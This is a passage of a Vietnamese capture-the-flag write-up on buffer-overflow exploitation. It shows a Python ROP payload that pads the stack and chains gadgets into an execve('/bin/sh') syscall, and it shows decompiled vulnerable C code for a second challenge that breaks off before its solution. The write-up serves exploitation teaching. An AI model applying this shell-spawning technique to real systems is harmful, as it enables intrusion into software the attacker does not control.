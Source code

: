 ```python
```

- rax của bài này hơi khác xíu nhưng ta vẫn có thể sử dụng được
- Nếu để pop_rax như này thì nó lỗi, sau khi tìm hiểu thì nó sẽ gây lỗi nếu rax khác ở dưới thì nó sẽ cộng thêm vào rax, do đó e thử chuyển lên đầu thì nó ổn

```python
payload1 = b'A'*88
payload1 += p64(pop_rax) + p64(0x3b)
payload1 += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload1 += p64(pop_rsi) + p64(0)
payload1 += p64(pop_rdx) + p64(0)
payload1 += p64(syscall)
```

## Kết quả

![image](https://user-images.githubusercontent.com/111769169/230180934-452b0357-b919-45b4-8bfe-54aef5250303.png)

---

# bof4chall2

## IDA

```c
unsigned __int64 vuln()
{
  char buf; // [rsp+7h] [rbp-39h] BYREF
  char s[8]; // [rsp+8h] [rbp-38h] BYREF
  void *v3; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v4; // [rsp+18h] [rbp-28h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  v5 = v4;
  puts("What's your name ?");
  read(0, &buf, 0x100uLL);
  printf("Hello ");
  puts(s);
  puts("What is rop ?");
  read(0, &v3, 0x100uLL);
  puts("Can you change the saved rip when canary is enabled?");
  read(0, v3, 0x38uLL);
  return __readfsqword(0x28u) ^ v4;
}
```

## Ý tưởng
